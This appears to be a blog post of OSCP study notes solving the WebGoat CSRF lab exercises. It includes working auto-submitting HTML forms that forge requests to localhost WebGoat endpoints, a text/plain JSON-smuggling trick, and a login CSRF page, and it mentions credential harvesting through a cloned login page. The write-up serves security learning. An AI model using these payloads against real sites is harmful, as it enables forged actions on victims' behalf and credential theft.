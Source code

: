 Title: Road to OSCP: WebGoat A8: CSRF
Summary: Short notes about these tasks
Category: OSCP
Tags: websec, webgoat, csrf
Date: 2020-03-11 14:45
Status: published

#### Basic Get CSRF Exercise
To pass this one we should issue a POST request to `/WebGoat/csrf/basic-get-flag` in that way so it looks like have done from another host. To achieve this one could use intercepting proxy or browser devtools to modify request done from the browser and change `Referer` header's value to some random host. For example, to `example.com`. This solution is cheaty, proper 'exploit' is a page that looks like this:
```html
<html>
  <head></head>
  <body>
    <form name="f" 
          action="http://localhost:8080/WebGoat/csrf/basic-get-flag" 
          method="POST">
      <input type="hidden" name="csrf" value="false"/>
    </form>
    <script>document.f.submit();</script>
  </body>
</html>
```
It will show token after opening.

#### Post a review on someone else’s behalf
It's quite strange, but this could be solved in exact same way like the previous one. Is there some sort of a bug? Making a request with tampered `Referer` allow to pass this one. As earlier, correct solution is to craft a page like this:
```html
<html>
  <head></head>
  <body>
    <form name="f" 
          action="http://localhost:8080/WebGoat/csrf/review" 
          method="POST">
      <input type="hidden" name="reviewText" value="nailed"/>
      <input type="hidden" name="stars" value="5"/>
      <input type="hidden" 
             name="validateReq" 
             value="2aa14227b9a13d0bede0388a7fba9aa9"/>
    </form>
    <script>document.f.submit();</script>
  </body>
</html>
```
The only difference is that there are three inputs instead of one, and one contain a static value. 

#### CSRF and content-type
I stuck for a while here. We provided with a writeup on how to exploit some CSRF vulnerabilities where JSON, XML or whatever alike required. Main idea is that we could craft a form that sends some input data as plain text without applying url encoding. This trick is relatively simple:
```html
<html>
  <head></head>
  <body>
    <form name="sample" 
          action="http://localhost:8080/WebGoat/csrf/feedback/message" 
          method="POST" 
          ENCTYPE="text/plain">
      <input type="hidden" 
             name='{"name":"WebGoat","email":"webgoat@webgoat.org","subject":"service","content":"WebGoat is the best!!"}'
      />
    </form>
    <script>document.sample.submit();</script>
  </body>
</html>
```
Did you notice `ENCTYPE` form attribute? That's telling browser not to apply url encoding and effectively changes `Content-Type` header value to `text/plain` (at least in Firefox 68). The main caveat here is that browser appends equal sign at the end of the JSON because it expects some value passed in. This is where I stuck and even was thinking that this task is outdated, mostly because of this fragment of writeup:
> This results in a perfectly formatted Cross-Domain XML POST request.  The ENCTYPE avoids the body being encoded and he cleverly absorbs the unwanted “=” into the XML at a point where we need an “=” anyway.

Well, it does not "absorb the unwanted =" hence JSON rendered invalid and this will result in HTTP 500. I also found a [W3C standard](https://www.w3.org/TR/html52/sec-forms.html#plain-text-form-data) that instructs to do so and really was thinking that browsers fixed this behaviour some way. Hovewer, [Firefox 52.0.2](https://ftp.mozilla.org/pub/firefox/releases/52.0.2/) (dates back to when writeup was published) behaves exactly like Firefox 68, so this hypothesis does not seem to be right. So I've tried to use some `<!DOCTYPE>` declarations and `version` html attributes to tell browser that this doc is not HTML5 compliant. Still no luck. Dumb me! Solution was pretty simple. It was possible to provide phony JSON member that swallows unwanted equal sign. It was needed to change `input` declaration in that fashion:
```html
<input type="hidden" name='{"name":"WebGoat",...<SNIP>...,"phony:"' value='useless"}'/>
```
So resultant JSON will look like this:
```json
{
  "name": "WebGoat",
  "email": "webgoat@webgoat.org",
  "subject": "service",
  "content": "WebGoat is the best!!",
  "phony": "=useless"
}
```
Last member is ignored by the application and I've finally got a flag.

#### Login CSRF attack
If I grasp it right, to solve is simply to craft a document like this and open it locally or upload to webwolf and open from it:
```html
<html>
  <head></head>
  <body>
    <form name="sample" 
          action="http://localhost:8080/WebGoat/login" 
          method="POST">
	    <input type="hidden" 
                   name='username' 
                   value='csrf-theuser'/>
	    <input type="hidden" 
                   name='password' 
                   value='theuser'/>
    </form>
    <script>document.sample.submit();</script>
  </body>
</html>
```
It could be assumed that document may have any sophisticated form, for example exact copy of original logn page thus allowing attacker to harvest credentials.
Also need to carefully read [paper](http://seclab.stanford.edu/websec/csrf/csrf.pdf) from the exercise.
